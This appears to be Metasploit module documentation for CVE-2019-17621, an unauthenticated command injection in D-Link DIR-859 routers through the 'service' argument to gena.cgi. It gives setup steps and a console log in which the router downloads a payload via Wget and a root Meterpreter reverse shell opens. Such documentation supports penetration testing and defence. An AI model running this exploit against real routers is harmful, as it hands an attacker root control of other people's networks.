 ## Introduction

This module exploits CVE.2019-17621, a remote unauthenticated OS command injection in the UPnP API of the DIR-859 and other D-link SOHO routers via the `service` argument to the `gena.cgi` URL.

## Setup

Get a D-Link DIR-859 router (or [any of the devices/firmware versions mentioned here](https://supportannouncement.us.dlink.com/announcement/publication.aspx?name=SAP10147)), or download firmware versions 1.06 or 1.05 and run them on firmadyne or similar emulation frameworks.

## Usage

```
msf5 exploit(linux/http/dlink_dir859_exec_telnet) > run 

[*] Started reverse TCP handler on 192.168.0.2:4444 
[*] Using URL: http://192.168.0.2:8080/r2hOQycyVvN2BP
[*] Client 192.168.0.1 (Wget) requested /r2hOQycyVvN2BP
[*] Sending payload to 192.168.0.1 (Wget)
[*] Command Stager progress - 100.00% done (118/118 bytes)
[*] Meterpreter session 7 opened (192.168.0.2:4444 -> 192.168.0.1:54599) at 2020-01-10 11:36:52 -0300
[*] Server stopped.

meterpreter > getuid 
Server username: uid=0, gid=0, euid=0, egid=0
meterpreter > sysinfo 
Computer     : 192.168.0.1
OS           :  (Linux 2.6.32.70)
Architecture : mips
BuildTuple   : mips-linux-muslsf
Meterpreter  : mipsbe/linux
meterpreter >
```
